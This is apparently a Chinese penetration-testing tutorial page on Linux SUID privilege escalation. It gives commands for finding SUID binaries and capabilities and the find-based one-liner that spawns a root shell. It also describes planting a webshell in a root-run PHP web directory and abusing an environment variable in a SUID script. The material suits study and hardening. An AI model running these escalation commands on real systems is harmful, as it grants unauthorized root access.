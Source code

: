 # SUID

SUID可以让调用者以文件拥有者的身份运行该文件, 当在渗透过程中发现带有其他用户SUID权限的可执行文件服务或进程时，可以利用存在错误的权限配置获取其他用户或ROOT的权限

## 可执行文件提权

```sh
find / -user root -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -type f -name '*.txt' 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {}; > /tmp/suid
getcap -r / 2>/dev/null
```

![image-20220531145004731](../../../.vuepress/public/img/image-20220531145004731.png)

创建新的用户 `user1`，使用 Root用户给 find命令加上 SUID权限，当登陆 user1 查看该命令时，可执行文件所有者为 Root，当 `user1` 调用该命令时，实际调用身份为 `Root`

```sh
user1@i-v0nrmv9j:~$ ls /usr/bin/find -all
-rwsr-xr-x 1 root root 199304 Oct 31  2018 /usr/bin/find
```

 <a-alert type="success" message="" description="Linux 提权工具: https://gtfobins.github.io/" showIcon>
</a-alert>
<br/>



![image-20220531150723350](../../../.vuepress/public/img/image-20220531150723350.png)

```sh
find . -exec /bin/sh -p \; -quit
```

![image-20220531151918257](../../../.vuepress/public/img/image-20220531151918257.png)

## 服务相关提权

SUID权限与Web服务相关时, 这里以Root用户开启一个PHP Web服务器

![image-20220531152916676](../../../.vuepress/public/img/image-20220531152916676.png)

![image-20220531153303027](../../../.vuepress/public/img/image-20220531153303027.png)

这里的PHP Web服务由于是Root权限开启的进程，我们可以通过在该Web目录写入 Webshell 命令执行获取Root权限

![image-20220531153753534](../../../.vuepress/public/img/image-20220531153753534.png)

## 利用变量提权

部分脚本中存在获取系统变量来执行时，如果变量可控且为SUID，我们就可以通过该脚本获取Root权限

![image-20220531171136888](../../../.vuepress/public/img/image-20220531171136888.png)

这里简单编写了一个例子，使用 env 中的变量 cmd 来执行命令 /bin/sh 获取可交互 Shell `(真实渗透中只需要注意SUID权限的可执行脚本是否有可控ENV变量)`

![image-20220531171451027](../../../.vuepress/public/img/image-20220531171451027.png) 
